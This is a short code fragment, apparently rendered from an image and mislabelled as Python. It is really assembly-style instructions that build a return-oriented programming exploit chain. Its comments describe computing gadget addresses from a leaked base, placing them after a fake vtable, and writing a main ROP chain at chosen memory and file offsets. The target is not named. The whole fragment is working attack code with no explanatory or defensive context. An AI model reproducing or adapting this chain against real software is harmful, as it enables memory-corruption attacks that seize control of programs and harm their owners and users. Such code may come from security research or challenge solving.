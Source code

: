 ```python
lda 0x8bc
sta 0xc4
lda 0x8be
sta 0xc6

# load gadget 2 address after fake vtable using gadget 1 addr
ldc 0xfc8
sbc 0x8d8
sta 0xfe8
lda 0xfca
sbc 0x8da
sta 0xfea
lda 0xfcc
sta 0xfec
lda 0xfce
sta 0xfee

# load gadget 3 addr
ldc 0xfc8
sbc 0x8dc
sta 0xcf
lda 0xfca
sbc 0x8de
sta 0xd1
lda 0xfcc
sta 0xd3
lda 0xfce
sta 0xd5

# load gadget 4 addr
ldc 0xfc8
sbc 0x8e0
sta 0xee
lda 0xfca
sbc 0x8e2
sta 0xf0
lda 0xfcc
sta 0xf2
lda 0xfce
sta 0xf4

# start writing main ROP chain at *current addr* 0x108 and *file addr* 0x40
# write gadget 5's addr
ldc 0xfc8
sbc 0x8e4
sta 0x108
lda 0xfca
sbc 0x8e6
sta 0x10a
lda 0xfcc
sta 0x10c
lda 0xfce
sta 0x10e

# write gadget 6's addr
ldc 0xfc8
sbc 0x8e8
sta 0x118
lda 0xfca
sbc 0x8ea
sta 0x11a
lda 0xfcc
sta 0x11c
```